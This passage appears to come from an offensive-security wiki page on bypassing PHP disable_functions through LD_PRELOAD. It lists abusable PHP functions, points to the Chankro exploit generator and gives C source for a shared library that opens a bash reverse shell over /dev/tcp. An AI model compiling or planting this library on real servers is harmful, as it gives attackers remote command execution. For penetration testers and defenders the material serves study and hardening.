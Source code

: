 Just return to the begging of this page and **check if any of the command executing functions isn't disabled and available in the environment**. If you find just 1 of them, you will be able to use it to execute arbitrary system commands.

### LD\_PRELOAD bypass

It's well known that some functions in PHP like `mail()`are going to **execute binaries inside the system**. Therefore, you can abuse them using the environment variable `LD_PRELOAD` to make them load an arbitrary library that can execute anything.

#### Functions that can be used to bypass disable\_functions with LD\_PRELOAD

1. `mail`
2. `mb_send_mail` : If your system has `php-mbstring` module installed then this function can be used to bypass php disable\_functions.
3. `imap_mail` : If your system has `php-imap` module installed then this function also can be used to bypass the php disable\_functions.
4. `libvirt_connect` : If your system has `php-libvirt-php` module installed then this function also can be used to bypass disable\_functions.
5. `gnupg_init` : If your system has `php-gnupg` module installed then this function also can be used to bypass disable\_functions.
6. `new imagick()`: You can [**find here a writeup**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/) to learn how to abuse this class

You can find [**here**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) the fuzzing script that was used to find those functions.

Here is a library you can compile to abuse the `LD_PRELOAD` env variable:

```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}
```

#### Bypass using Chankro

In order to abuse this misconfiguration you can [**Chankro**](https://github.com/TarlogicSecurity/Chankro). This is a tool that will **generate a PHP exploit** that you need to upload to the vulnerable server and execute it \(access it via web\).  
**Chankro** will write inside the victims disc the **library and the reverse shell** you want to execute and will use the**`LD_PRELOAD` trick + PHP `mail()`** function to execute the reverse shell.

Note that in order to use **Chankro**, `mail` and `putenv` **cannot appear inside the `disable_functions` list**.  
In the following example you can see how to **create a chankro exploit** for **arch 64**, that will execute `whoami` and save the out in _/tmp/chankro\_shell.out_, chankro will **write the library and the payload** in _/tmp_ and the **final exploit** is going to be called **bicho.php** \(that's the file you need to upload to the victims server\):
